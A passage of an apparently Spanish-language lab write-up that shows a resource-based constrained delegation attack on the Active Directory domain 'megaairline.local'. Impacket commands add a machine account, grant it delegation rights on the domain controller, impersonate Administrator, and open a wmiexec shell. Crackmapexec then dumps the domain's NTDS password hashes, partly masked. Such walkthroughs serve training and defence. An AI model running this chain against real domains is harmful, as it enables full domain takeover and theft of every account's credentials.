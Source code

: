 ```powershell
❯ impacket-addcomputer -computer-name attackersystem$ -computer-pass 123456 megaairline.local/anna:FWErfsgt4ghd7f6dwx
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account attackersystem$ with password 123456.

❯ impacket-rbcd -delegate-from attackersystem$ -delegate-to DC2$ -action write megaairline.local/anna:FWErfsgt4ghd7f6dwx  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] attackersystem$ can now impersonate users on DC2$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     attackersystem$   (S-1-5-21-775547830-308377188-957446042-9104)
```

Después de completar la delegación, el siguiente paso sería solicitar un ticket autenticándonos como el equipo creado ("attackersystem") suplantando al usuario "Administrator". Con este ticket, podríamos autenticarnos y conectarnos al DC utilizando "wmiexec".

Alternativamente, para mayor comodidad, podríamos utilizar "crackmapexec" para dumpear el NTDS (Active Directory Domain Services) y así obtener los hashes en formato NT de todos los usuarios y equipos asociados a este dominio.

```bash
❯ impacket-getST -spn cifs/dc2.megaairline.local megaairline.local/'attackersystem$':123456 -impersonate Administrator  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

❯ export KRB5CCNAME=Administrator.ccache
```

```powershell
❯ impacket-wmiexec dc2.megaairline.local -k -no-pass -shell-type powershell  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> whoami
megaairline\administrator

PS C:\>
```

```bash
❯ crackmapexec smb dc2.megaairline.local -k --use-kcache --ntds drsuapi
SMB         dc2.megaairline.local 445    DC2              [*] Windows 10.0 Build 17763 x64 (name:DC2) (domain:megaairline.local) (signing:True) (SMBv1:False)  
SMB         dc2.megaairline.local 445    DC2              [+] megaairline.local\Administrator from ccache (Pwn3d!)
SMB         dc2.megaairline.local 445    DC2              [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc2.megaairline.local 445    DC2              Administrator:500:aad3b435b514**************e:674f1a5c73f4faad8ddbf7f3bf86db60:::
SMB         dc2.megaairline.local 445    DC2              Guest:501:aad3b435b51404ee**************6ae931b73c59d7e0c089c0:::
SMB         dc2.megaairline.local 445    DC2              krbtgt:502:aad3b435b51404eeaad3b43**************b9e4ae8a97d001d:::
```